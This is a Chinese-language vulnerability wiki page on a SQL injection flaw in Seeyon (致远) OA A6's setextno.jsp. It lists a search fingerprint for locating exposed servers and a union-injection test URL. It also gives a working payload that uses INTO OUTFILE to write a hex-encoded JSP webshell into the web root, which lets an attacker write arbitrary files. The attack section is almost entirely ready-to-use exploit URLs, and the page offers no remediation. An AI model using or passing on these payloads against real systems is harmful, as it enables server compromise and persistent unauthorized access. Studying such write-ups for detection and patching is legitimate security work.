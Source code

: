 # 致远OA A6 setextno.jsp SQL注入漏洞

## 漏洞描述

致远OA A6 setextno.jsp 存在sql注入漏洞，并可以通过注入写入webshell文件控制服务器

## 漏洞影响

  <a-checkbox checked>致远OA A6</a-checkbox></br>

## 网络测绘

  <a-checkbox checked>title="致远A8+协同管理软件.A6"</a-checkbox></br>

## 漏洞复现

访问如下Url，其中含有 union注入

```plain
/yyoa/ext/trafaxserver/ExtnoManage/setextno.jsp?user_ids=(99999) union all select 1,2,(md5(1)),4#
```



![img](/assets/PeiQi-Wiki/img/zhiyuan-37.png)



查看web路径



![img](/assets/PeiQi-Wiki/img/zhiyuan-38.png)



写入文件上传木马



```plain
http://xxx.xxx.xxx/yyoa/ext/trafaxserver/ExtnoManage/setextno.jsp?user_ids=(99999) union all select 1,2,(select unhex('3C25696628726571756573742E676574506172616D657465722822662229213D6E756C6C29286E6577206A6176612E696F2E46696C654F757470757453747265616D286170706C69636174696F6E2E6765745265616C5061746828225C22292B726571756573742E676574506172616D65746572282266222929292E777269746528726571756573742E676574506172616D6574657228227422292E67657442797465732829293B253E')  into outfile 'D:/Program Files/UFseeyon/OA/tomcat/webapps/yyoa/test_upload.jsp'),4#
```



![img](/assets/PeiQi-Wiki/img/zhiyuan-40.png)